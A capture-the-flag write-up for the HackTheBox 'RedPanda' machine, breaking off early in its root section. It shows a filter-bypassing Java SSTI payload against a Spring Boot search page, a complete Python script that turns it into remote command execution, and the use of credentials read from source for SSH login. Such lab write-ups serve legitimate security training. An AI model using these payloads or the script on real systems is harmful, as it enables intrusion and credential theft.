


# RedPanda - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```8080```.

***User***: Found SSTI on ```/search```, Write script to automate the SSTI [./ssti.py](./ssti.py), Using that, read the credentials of ```woodenk``` user on ```/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java``` file.

***Root***: 


## RedPanda Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/RedPanda]
└──╼ $ nmap -sV -sC -oA nmap/RedPanda 10.10.11.170
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-22 03:23 IDT
Nmap scan report for 10.10.11.170
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 22 Jul 2022 00:23:40 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Fri, 22 Jul 2022 00:23:40 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 22 Jul 2022 00:23:41 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Red Panda Search | Made with Spring Boot
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=7/22%Time=62D9EE0C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Fri,\x2022\x20Jul\x20
SF:2022\x2000:23:40\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Fr
SF:i,\x2022\x20Jul\x202022\x2000:23:40\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Fri,\x2022\x20Jul\x202022\x2000:23:41\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By observing port 8080 we get the following web page:


We can see the search input, Let's try to search:
```HTTP
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://10.10.11.170:8080
DNT: 1
Connection: close
Referer: http://10.10.11.170:8080/search
Upgrade-Insecure-Requests: 1

name=test
```

Response:
```HTTP
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Sat, 23 Jul 2022 14:22:41 GMT
Connection: close
Content-Length: 727

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: test</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```

As we can see on the page title, It's based on ```Red Panda Search | Made with Spring Boot```.

By research, we found that the ```/search``` API is vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Let's try the JAVA payloads from [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection):

```HTTP
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://10.10.11.170:8080
DNT: 1
Connection: close
Referer: http://10.10.11.170:8080/search
Upgrade-Insecure-Requests: 1

name=${7*7}
```

Response:
```HTTP
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Sat, 23 Jul 2022 14:24:25 GMT
Connection: close
Content-Length: 755

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: Error occurred: banned characters</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```

We can see the filter: ```You searched for: Error occurred: banned characters```.

If we are sending it with ```*``` instead of ```#``` we can bypass the filter:
```HTTP
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://10.10.11.170:8080
DNT: 1
Connection: close
Referer: http://10.10.11.170:8080/search
Upgrade-Insecure-Requests: 1

name=*{7*7}
```

Response:
```HTTP
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Sat, 23 Jul 2022 14:24:25 GMT
Connection: close
Content-Length: 755

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: 49</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```

So we have SSTI, Let's write ```python``` to automates it ([Reference](https://github.com/VikasVarshney/ssti-payload)):
```python
#!/usr/bin/python3
from cmd import Cmd
import urllib.parse, argparse
import requests

target_url='http://10.10.11.170:8080/search'

class Terminal(Cmd):
    prompt='\033[1;33mCommand ==>\033[0m '
    def send_payload(self,payload):
        data = { "name": payload }
        r = requests.post(target_url, data=data)
        content = str(r.content)
        content = content[content.find(':')+2:content.find('<',content.find(':'))-2]
        print(content.replace(r'\n', '\n').replace(r'\t', '\t'))
    
    def decimal_encode(self,args):
        command=args

        decimals=[]

        for i in command:
            decimals.append(str(ord(i)))

        payload='''*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]
        

        for i in decimals[1:]:
            line='.concat(T(java.lang.Character).toString({}))'.format(i)
            payload+=line

        payload+=').getInputStream())}'
        self.send_payload(payload)
        '''if url_encode:
            payload_encoded=urllib.parse.quote_plus(payload,safe='')
            return payload_encoded
        else:
            return payload'''

    def default(self,args):
        self.decimal_encode(args)
        print()
try:
    term=Terminal()
    term.cmdloop()
except KeyboardInterrupt:
    quit()
```

Run it:
```console
┌─[evyatar@parrot]─[/hackthebox/RedPanda]
└──╼ $ python3 ssti.py
Command ==> whoami
woodenk

```

And we have RCE.

By enumerating we found credentials to ```woodenk``` user on ```/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java```:
```java
Command ==> cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
package com.panda_search.htb.panda_search;
...
    public ArrayList searchPanda(String query) {

        Connection conn = null;
        PreparedStatement stmt = null;
        ArrayList&lt;ArrayList&gt; pandas = new ArrayList();
        try {
            Class.forName("com.mysql.cj.jdbc.Driver");
            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
            stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
            stmt.setString(1, "%" + query + "%");
            ResultSet rs = stmt.executeQuery();
            while(rs.next()){
                ArrayList&lt;String&gt; panda = new ArrayList&lt;String&gt;();
                panda.add(rs.getString("name"));
                panda.add(rs.getString("bio"));
                panda.add(rs.getString("imgloc"));
		panda.add(rs.getString("author"));
                pandas.add(panda);
            }
        }catch(Exception e){ System.out.println(e);}
        return pandas;
    }
}
```

Let's use the credentials ```woodenk:RedPandazRule``` to log in via SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/RedPanda]
└──╼ $ ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Jul 2022 07:41:25 PM UTC

  System load:           0.0
  Usage of /:            80.5% of 4.30GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             213
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.170
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9c5b


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jul  5 05:51:25 2022 from 10.10.14.23
woodenk@redpanda:~$ cat user.txt
9f1fab809b5b8c89085a0a73805288ba
```

And we get the user flag ```9f1fab809b5b8c89085a0a73805288ba```.

### Root

By running [pspy64](https://github.com/DominicBreuker/pspy) we can see the following:
```console
...
2022/07/23 20:05:01 CMD: UID=0    PID=1852   | /usr/sbin/CRON -f 
2022/07/23 20:05:01 CMD: UID=0    PID=1853   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh 
2022/07/23 20:05:01 CMD: UID=0    PID=1854   | sudo -u woodenk /opt/cleanup.sh 
2022/07/23 20:05:01 CMD: UID=1000 PID=1855   | /bin/bash /opt/cleanup.sh 
2022/07/23 20:05:01 CMD: UID=1000 PID=1858   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
2022/07/23 20:05:01 CMD: UID=1000 PID=1859   | /bin/bash /opt/cleanup.sh 
2022/07/23 20:05:01 CMD: UID=1000 PID=1862   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
2022/07/23 20:05:01 CMD: UID=1000 PID=1863   | /bin/bash /opt/cleanup.sh 
2022/07/23 20:05:01 CMD: UID=1000 PID=1865   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ; 
```

We can see schedule task of ```root``` which runs ```/bin/sh -c /root/run_credits.sh```